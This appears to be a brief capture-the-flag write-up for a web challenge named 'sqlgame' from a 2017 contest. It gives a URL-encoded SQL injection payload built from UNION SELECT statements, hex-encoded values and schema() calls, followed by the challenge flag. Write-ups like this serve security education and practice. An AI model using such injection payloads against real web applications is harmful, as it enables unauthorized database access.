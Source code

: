 # Power of Xx 2017
~~~
* 이름 : 문시우

* 문제명 : sqlgame

* 난이도 : 하

* 분야 : 웹
~~~

- payload
~~~
?vuln=1%20union%20select%200x303037,1,1%23%27%20union%20select%201,0x62616e67,schema()%23"%20union%20select%201,2,%27007%27%23
~~~

----------------------------------

flag : flag{good_good_very_good}
